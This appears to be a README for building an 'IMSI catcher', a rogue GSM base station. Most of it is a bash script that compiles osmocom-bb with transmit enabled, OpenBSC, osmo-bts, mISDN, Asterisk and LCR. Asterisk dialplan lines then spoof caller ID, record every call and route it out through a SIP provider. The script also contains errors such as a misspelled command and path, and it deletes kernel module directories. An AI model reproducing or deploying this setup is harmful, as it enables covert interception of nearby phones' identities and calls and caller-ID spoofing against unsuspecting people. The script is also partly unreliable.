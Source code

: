 IMSI Catcher
============

Script bash automation
----------------------

.. code:: bash

   #!/bin/bash
   sudo su
   echo "deb http://fr.archive.ubuntu.com/ubuntu/ xenial main restricted universe multiverse" >> sources.list
   apt update
   apt install gcc-4.9 g++-4.9 gcc-7 g++-7 gcc-10 g++-10
   sed -i '$ d' /etc/apt/sources.list
   apt update
   apt install build-essential libgmp-dev libx11-6 libx11-dev flex libncurses5 libncurses5-dev libncursesw5 libpcsclite-dev zlib1g-dev libmpfr4 libmpc3 lemon aptitude libtinfo-dev libtool shtool autoconf git-core pkg-config make libmpfr-dev libmpc-dev libtalloc-dev libfftw3-dev libgnutls28-dev libssl1.0-dev libtool-bin libxml2-dev sofia-sip-bin libsofia-sip-ua-dev sofia-sip-bin libncursesw5-dev libncursesw5-dbg bison libgmp3-dev alsa-oss
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-4.9 49 --slave /usr/bin/g++ g++ /usr/bin/g++-4.9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-7 70 --slave /usr/bin/g++ g++ /usr/bin/g++-7
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   echo "deb http://fr.archive.ubuntu.com/ubuntu/ bionic main restricted universe multiverse" >> sources.list
   apt update
   apt install gcc-5 g++-5
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-5 50 --slave /usr/bin/g++ g++ /usr/bin/g++-5
   sed -i '$ d' /etc/apt/sources.list
   apt update
   update-alternative --set gcc /usr/bin/gcc-4.9
   apt remove texinfo
   mkdir /opt/IMSI_Catcher
   cd /opt/IMSI_Catcher
   wget http://ftp.gnu.org/gnu/texinfo/texinfo-4.13.tar.gz
   gzip -dc < texinfo-4.13.tar.gz | tar -xf -
   cd texinfo-4.13
   ./configure
   make
   make install
   git clone https://github.com/axilirator/gnu-arm-installer.git gnuarm
   cd gnuarm
   #Run the Scripts
   ./download.sh
   ./build.sh
   export PATH=$PATH:/root/gnuarm/install/bin 
   # Now you have cross-compiler ready you can build osmocom with your firmware
   cd /opt/IMSI_Catcher
   git clone git://git.osmocom.org/libosmocore.git
   cd libosmocore
   autoreconf -i
   ./configure
   make
   make install
   ldconfig
   cd /opt/IMSI_Catcher
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   autoreconf -i
   ./configure
   make
   make install
   cd /opt/IMSI_Catcher
   git clone https://github.com/osmocom/osmocom-bb trx
   cd trx
   git checkout jolly/testing
   cd src
   sed -i -e  's/#CFLAGS += -DCONFIG_TX_ENABLE/CFLAGS += -DCONFIG_TX_ENABLE/g' target/firmware/Makefile
   make HOST_layer23_CONFARGS=--enable-transceiver
   cd /opt/IMSI_Catcher

   apt install -y libortp-dev
   git clone https://github.com/osmocom/libosmo-abis
   cd /opt/IMSI_Cacher/libosmo-abis
   autoreconf -fi && ./configure --disable-dahdi && make -j4 && make install && ldconfig

   cd /opt/IMSI_Catcher
   git clone https://github.com/osmocom/libosmo-netif
   cd /opt/IMSI_Catcher/libosmo-netif
   autoreconf -fi && ./configure && make -j4 && make install && ldconfig

   cd /opt/IMSI_Catcher
   git clone https://github.com/osmocom/openbsc
   cd /opt/IMSI_Catcher/openbsc/openbsc
   autoreconf -fi && ./configure --with-lms && make -j4 && make install && ldconfig

   cd /opt/IMSI_Catcher
   git clone https://github.com/osmocom/osmo-bts
   cd /opt/IMSI_Catcher/osmo-bts
   git checkout 1.1.0
   autoreconf -fi && ./configure --enable-trx && make -j4 && make install && ldconfig

   cd /lib/modules/$(uname -r)/build/certs
   openssl req -new -x509 -newkey rsa:2048 -keyout signing_key.pem -outform DER -out signing_key.x509 -nodes -subj "/CN=Owner/"
   apt install -y gcc-9 g++-9 gcc-7 g++-7 gcc-10 g++-10
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-7 70 --slave /usr/bin/g++ g++ /usr/bin/g++-7
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   cd /opt/IMSI_Catcher
   git clone https://github.com/isdn4linux/mISDN
   cd /opt/IMSI_Catcher/mISDN
   rm -Rf /lib/modules/$(uname -r)/kernel/drivers/isdn/hardware/mISDN
   rm -Rf /lib/modules/$(uname -r)/kernel/drivers/isdn/mISDN/
   wget https://raw.githubusercontent.com/bbaranoff/PImpMyPi/main/octvqe.patch
   cp /boot/System.map-$(uname -r) /usr/src/linux-headers-$(uname -r)/System.map
   ln -s /lib/modules/$(uname -r)/build /lib/modules/$(uname -r)/source
   aclocal && automake --add-missing
   ./configure
   patch -p0 < octvqe.patch
   make modules
   cp /opt/IMSI_Catcher/mISDN/standalone/drivers/isdn/mISDN/modules.order /usr/src/linux-headers-$(uname -r)
   cp -rn /usr/lib/modules/$(uname -r)/. /usr/src/linux-headers-$(uname -r)
   make modules_install
   depmod -a

   update-alternatives --set gcc /usr/bin/gcc-7

   cd /opt/IMSI_Catcher
   apt install bison flex -y
   git clone https://github.com/isdn4linux/mISDNuser
   cd /opt/IMSI_Catcher/mISDNuser
   make
   ./configure
   make
   make install
   ldconfig
   cd example
   ./configure
   make
   make install
   ldconfig

   update-alternatives --set gcc /usr/bin/gcc-10

   #Asterisk version (11.25.3) :
   wget http://downloads.asterisk.org/pub/telephony/asterisk/releases/asterisk-11.25.3.tar.gz
   tar zxvf asterisk-11.25.3.tar.gz
   cd /opt/IMSI_Catcher/asterisk-11.25.3
   apt install libncurses-dev libxml2-dev
   ./configure
   make
   make install
   make config
   ldconfig

   git clone https://github.com/fairwaves/lcr
   cd lcr
   autoreconf -i
   ./configure --with-sip --with-gsm-bs --with-gsm-ms --with-asterisk
   make
   make install
   ldconfig
   cp chan_lcr.so /usr/lib/asterisk/modules/
   apt-get install alsa-oss
   modprobe snd-pcm
   modprobe snd-mixer-oss
   modprobe mISDN_core
   modprobe mISDN_dsp

   git clone https://github.com/bbaranoff/lcr_conf /etc/usr/local/lcr

Change /etc/asterisk/sip.conf with the following

::

   [general]
   bindport=5040
   bindaddr=0.0.0.0
   context=default
   srvlookup=yes
   defaultexpirey=1800
   dtmfmode=auto
   qualify=yes
   register => 4XXXX5:49XXXXXXX51@diamondcard.us
   nat=yes


    ; Add to your sip.conf
    ;
    ; Diamondcard.us termination
    [diamondcard]
    type=peer
    username=4XXXX5
    fromuser=4XXXX5
    secret=49XXXXXXX51
    host=sip.diamondcard.us
    disallow=all
    allow=alaw,ulaw
    fromdomain=sip.diamondcard.us 

according to your SIP registrar

Change now /etc/asterisk/extensions.conf by

::

   [from-lcr]
   include => default
    exten => _X.,1,Set(CALLERID(number)=0656565656)
    exten => _X.,2,Monitor(wav,myfilename2)
    exten => _X.,3,Dial(SIP/0033${EXTEN:1}@diamondcard)
    exten => _X.,4,Congestion 
    exten => _011.,1,Dial(LCR/ast/${EXTEN:3},60)
